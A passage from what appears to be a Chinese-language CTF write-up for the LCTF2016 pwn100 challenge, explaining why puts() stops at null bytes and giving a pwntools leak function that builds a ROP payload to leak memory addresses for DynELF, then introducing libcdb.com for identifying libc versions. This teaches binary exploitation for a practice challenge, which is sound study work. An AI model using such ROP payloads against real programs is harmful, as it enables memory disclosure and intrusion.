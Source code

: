 

通过查看输出的leak结果我们可以发现有大量的地址输出处理之后都是0x0a，即一个回车符。从Traceback上看，最根本原因是读取数据错误。这是因为puts()的输出是不受控的，作为一个字符串输出函数，它默认把字符’\x00’作为字符串结尾，从而截断了输出。因此，我们可以根据上述博文修改leak函数:



```python
def leak(addr):
       count = 0
       up = ''
       content = ''
       payload = 'A'*72                        #padding
       payload += p64(pop_rdi)                  #给puts()赋值
       payload += p64(addr)               #leak函数的参数addr
       payload += p64(puts_addr)        #调用puts()函数
       payload += p64(start_addr)       #跳转到start，恢复栈
       payload = payload.ljust(200, 'B') #padding
       io.send(payload)
       io.recvuntil("bye~\n")
       while True:                                                      #无限循环读取，防止recv()读取输出不全
              c = io.recv(numb=1, timeout=0.1)     #每次读取一个字节，设置超时时间确保没有遗漏
              count += 1                                            
              if up == '\n' and c == "":                  #上一个字符是回车且读不到其他字符，说明读完了
                     content = content[:-1]+'\x00'    #最后一个字符置为\x00
                     break
              else:
                     content += c #拼接输出
                     up = c    #保存最后一个字符
       content = content[:4]   #截取输出的一段作为返回值，提供给DynELF处理
       log.info("%#x => %s" % (addr, (content or '').encode('hex')))
       return content
```

脚本全部内容位于~/LCTF2016-pwn100/exp.py，此处不再赘述。



## 0x03其他获取libc的方法

 虽然DynELF是一个dump利器，但是有时候我们也会碰到一些令人尴尬的意外情况，比如写不出来leak函数，下libc被墙等等。这一节我们来介绍一些可行的解决方案。

首先要介绍的是[libcdb.com](https://bbs.ichunqiu.com/libcdb.com)，这是一个用来在线查询libc版本的网站。



![](pi10.png)
